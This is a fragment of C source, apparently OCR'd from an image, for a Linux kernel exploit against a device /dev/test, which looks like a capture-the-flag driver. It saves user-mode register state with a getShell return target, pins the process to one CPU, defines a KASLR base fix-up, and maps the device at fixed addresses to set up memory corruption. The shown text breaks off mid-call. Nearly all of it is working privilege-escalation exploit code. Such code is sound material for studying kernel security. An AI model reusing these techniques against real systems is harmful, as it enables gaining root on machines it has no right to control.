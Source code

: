 ```c
void save_state()
{
    __asm__(
        "mov [rip + user_cs], cs\n"
        "mov [rip + user_ss], ss\n"
        "mov [rip + user_sp], rsp\n"
        "mov [rip + user_ip], %0\n"
        "pushf\n"
        "pop qword ptr [rip + user_rflags]\n" ::"r"(getShell));
    logInfo("Saved user state");
}

void pin_cpu(int cpu)
{
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(cpu, &cpu_set);
    if (sched_setaffinity(0, sizeof(cpu_set), &cpu_set) != 0)
    {
        panic("sched_setaffinity");
    }
}

#define devfile "/dev/test"

int devfd;
char* m1;
char* m2;
char* m3;
uint64_t kbase;
#define FIX_ADDR(x) (x-0xffffffff81000000+kbase)

int main(int argc, char** argv, char** envp)
{

    pin_cpu(0);
    save_state();

    int devfd1 = open(devfile, O_RDWR);
    int devfd2 = open(devfile, O_RDWR);
    // int devfd3 = open(devfile, O_RDWR);


    int ran = open("/dev/urandom", O_RDONLY);

    int fds[0x3000 / 0x20] = { 0 };
    uint i = 0;

    char buf[0x321];
    read(ran, buf, sizeof(buf));
    buf[0] = 0;

    m1 = mmap((void*)0x1337000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd1, 0);
    if (m1 == MAP_FAILED) {
        panic("mmap(m1)");
    }

    m1[0] = 'A';
    m1[0x1000] = 'B';
    m1[0x2000] = 'C';

    m2 = mmap((void*)0x1347000, 0x3000,
```